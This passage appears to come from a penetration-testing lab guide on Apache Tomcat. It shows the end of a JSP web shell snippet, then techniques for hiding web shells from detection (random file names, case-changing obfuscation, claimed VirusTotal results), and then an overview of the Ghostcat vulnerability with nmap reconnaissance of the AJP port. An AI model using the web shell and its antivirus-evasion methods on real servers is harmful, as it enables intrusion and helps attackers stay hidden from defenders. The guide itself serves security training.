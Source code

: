 ```java
    response.sendError(404, "Not Found");
    return;
}
%>
<!-- Normal web shell code here -->
```

#### Web Shell Detection Evasion
```bash
# File name randomization
shell_name=$(openssl rand -hex 16)
echo "Random shell name: ${shell_name}.jsp"

# Content obfuscation techniques:
# 1. Change variable names
# 2. Modify function calls
# 3. Add benign HTML content
# 4. Use different encoding methods

# Example obfuscation:
# Change: FileOutputStream(f);stream.write(m);o="Uploaded:
# To:     FileOutputStream(f);stream.write(m);o="uPlOaDeD:

# VirusTotal evasion results:
# Original: 2/58 detections
# Obfuscated: 0/58 detections
```

---

## CVE-2020-1938: Ghostcat Vulnerability

### Vulnerability Overview

**CVE-2020-1938 (Ghostcat)** represents a **critical unauthenticated LFI vulnerability** affecting **all Tomcat versions** before **9.0.31**, **8.5.51**, and **7.0.100**. This vulnerability exploits **AJP protocol misconfigurations** to achieve **arbitrary file reading** within web application directories.

**Technical Details:**
- **Vulnerability Type:** Unauthenticated Local File Inclusion (LFI)
- **Affected Protocol:** Apache Jserv Protocol (AJP) 
- **Default Port:** 8009/tcp
- **Impact:** Read sensitive files within webapps directory
- **CVSS Score:** 9.8 (Critical)
- **Discovery Date:** February 2020

### AJP Protocol Reconnaissance

#### Service Detection and Enumeration
```bash
# Comprehensive AJP service detection
nmap -sV -p 8009,8080 app-dev.inlanefreight.local

# Expected output:
Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-21 20:05 EDT
Nmap scan report for app-dev.inlanefreight.local (10.129.201.58)
Host is up (0.14s latency).

PORT     STATE SERVICE VERSION
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
8080/tcp open  http    Apache Tomcat 9.0.30

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```